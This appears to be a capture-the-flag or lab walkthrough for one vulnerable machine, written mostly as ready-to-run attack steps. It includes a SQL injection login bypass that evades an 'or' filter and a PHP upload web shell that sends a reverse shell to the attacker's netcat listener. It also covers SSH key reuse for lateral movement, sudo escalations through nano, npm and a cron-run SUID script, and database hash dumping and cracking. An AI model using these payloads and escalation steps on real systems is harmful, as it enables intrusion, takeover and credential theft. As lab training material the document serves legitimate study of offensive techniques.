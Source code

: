 ## Initial Access Point 2

SQL Injection (since the or gets sanitized, we can do this "oorr"): 
```
username = admin' oorr '1' = '1' -- 
OR
password = admin' oorr '1' = '1' -- 

# remember to put a space after --
```

## Initial Access Point 3

Upload File Vulnerability (Reverse shell):
1. upload a php file with the following content:
```
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacking IP> <Attacking Port> >/tmp/f");
?>
```

2. Use burp suite/python to intercept the upload file request
```
Change the content type to image/png or image/jpeg
```

3. Run the command on your attacking machine:
```
nc -lvnp <Match the port in the php file>
```

4. Go the the following endpoint
```
<Victim IP>:5000/uploads/<filename.php>
```

## Horizontal Escalation Vector 1

puttygen /tmp/.sys_cache/.thumb -O private-openssh -o /tmp/converted_id
/tmp/.sys_cache$ chmod 600 /tmp/converted_id
/tmp/.sys_cache$ ssh -i /tmp/converted_id alice@localhost


## Vertical Escalation Vector 1

```
sudo -l

sudo nano
^R^X
reset; sh 1>&0 2>&0
bash
```

## Vertical Escalation Vector 2

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

## Vertical Escalation Vector 3

```
vi /opt/tmp.py

#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod +s /bin/bash')
except:
     sys.exit()

# Wait for cron job to run
/bin/bash -ip
```

## Vertical Escalation Vector 4

```
env
psql -h localhost -U "$LAB_DB_USER" -d "$LAB_DB_NAME"
\l
\c labdb
\dt
SELECT * FROM users;

# Get the hash and crack it with hashcat
hashcat -m 3200 pass.hash /usr/share/wordlists/rockyou.txt
```
